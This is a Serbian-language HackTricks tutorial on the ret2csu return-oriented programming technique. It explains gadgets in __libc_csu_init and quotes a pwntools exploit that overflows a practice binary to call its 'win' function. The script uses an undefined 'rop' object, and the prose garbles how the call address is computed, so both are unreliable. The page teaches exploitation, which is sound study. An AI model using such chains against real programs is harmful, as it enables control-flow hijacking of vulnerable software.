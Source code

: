 # Ret2csu

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne Informacije

**ret2csu** je hakovanje tehnika koja se koristi kada pokušavate preuzeti kontrolu nad programom, ali ne možete pronaći **gadgete** koje obično koristite za manipulisanje ponašanjem programa.

Kada program koristi određene biblioteke (poput libc), ima neke ugrađene funkcije za upravljanje načinom na koji različiti delovi programa komuniciraju međusobno. Među ovim funkcijama postoje neke skrivene dragocenosti koje mogu delovati kao naši nedostajući gadgeti, posebno jedna nazvana `__libc_csu_init`.

### Čarobni Gadgeti u \_\_libc\_csu\_init

U `__libc_csu_init`, postoje dve sekvence instrukcija (naši "čarobni gadgeti") koji se ističu:

1. Prva sekvencija nam omogućava postavljanje vrednosti u nekoliko registara (rbx, rbp, r12, r13, r14, r15). To su poput slotova gde možemo čuvati brojeve ili adrese koje želimo koristiti kasnije.

```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```

Ova sprava nam omogućava kontrolu ovih registara tako što izvlači vrednosti sa steka i smešta ih u njih.

2. Drugi niz koristi vrednosti koje smo postavili da uradi nekoliko stvari:

* **Premesti određene vrednosti u druge registre**, pripremajući ih za korišćenje kao parametre u funkcijama.
* **Izvrši poziv na lokaciju** određenu sabiranjem vrednosti u r15 i rbx, zatim množenjem rbx sa 8.

```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```

## Primer

Zamislite da želite da napravite syscall ili pozovete funkciju poput `write()`, ali vam trebaju specifične vrednosti u registrima `rdx` i `rsi` kao parametri. Obično biste tražili gedžete koji direktno postavljaju ove registre, ali ne možete pronaći nijedan.

Ovde dolazi do izražaja **ret2csu**:

1. **Postavljanje Registara**: Koristite prvi magični gedžet da skine vrednosti sa steka i stavi ih u rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) i r15.
2. **Korišćenje Drugog Gedžeta**: Sa postavljenim registrima, koristite drugi gedžet. Ovo vam omogućava da premestite vaše izabrane vrednosti u `rdx` i `rsi` (iz r14 i r13, redom), pripremajući parametre za poziv funkcije. Štaviše, kontrolišući `r15` i `rbx`, možete naterati program da pozove funkciju smeštenu na adresi koju izračunate i stavite u `[r15 + rbx*8]`.

Imate [**primer korišćenja ove tehnike i objašnjenje ovde**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), a ovo je konačan eksploit koji je korišćen:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

{% hint style="warning" %}
Imajte na umu da prethodni exploit nije namenjen za **`RCE`**, već samo da pozove funkciju nazvanu `win` (uzimanje adrese `win` sa stdin pozivanjem gets u ROP lancu i čuvanje u r15) sa trećim argumentom vrednosti `0xdeadbeefcafed00d`.
{% endhint %}

### Zašto ne koristiti libc direktno?

Obično su ovi slučajevi takođe ranjivi na [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), ali ponekad morate kontrolisati više parametara nego što se lako može kontrolisati pomoću gedžeta koje direktno pronađete u libc-u. Na primer, funkcija `write()` zahteva tri parametra, a **pronaći gedžete za postavljanje svih ovih direktno možda nije moguće**.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili **telegram grupi**]\(https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
